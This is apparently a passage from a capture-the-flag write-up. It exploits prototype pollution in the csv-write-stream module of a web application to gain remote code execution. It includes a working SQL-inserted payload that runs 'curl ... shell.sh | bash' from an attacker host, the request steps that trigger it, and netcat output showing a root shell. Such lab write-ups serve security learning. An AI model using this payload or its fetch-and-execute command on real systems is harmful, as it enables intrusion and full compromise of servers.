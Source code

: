 The `csv-write-stream` module, which the application uses to export tunnel data as CSV files, is known to have a vulnerability that can be exploited for Remote Code Execution (RCE). Since this package is outdated and hasn't been updated with new versions, it remains vulnerable to attacks.

To exploit this vulnerability, we can add a malicious entry to the database that uses prototype pollution to trigger arbitrary code execution when the application processes CSV exports. Here’s how you can insert malicious data into the database:

```sql
INSERT INTO tunnels(name, log_path, details) VALUES('test', '/etc/hosts', '{"__proto__.separator":",\";process.mainModule.require(`child_process`).exec(`curl http://10.10.14.36/shell.sh | bash`);result+=\""}');
```

This SQL command inserts a new tunnel record with a specially crafted `details` field designed to exploit prototype pollution. This field modifies the behavior of the CSV writer to execute a shell command instead of merely writing text.

### Triggering the Exploit

1. **Pollute the Prototype**: Make a request to `/tunnels` which causes the application to fetch and 'unflatten' the data, leading to prototype pollution.
2. **Execute the Payload**: Subsequently, a request to `/export/tunnels` will trigger the CSV export process, utilizing the polluted object, and thereby executing the malicious code embedded within.

And we got shell

```bash
$ rlwrap nc -nlvp 4243
Connection from 10.129.231.37:59976
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@d00755fd1a0a:/app# ls /
ls /
app
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
user.txt
usr
var
root@d00755fd1a0a:/app#
```
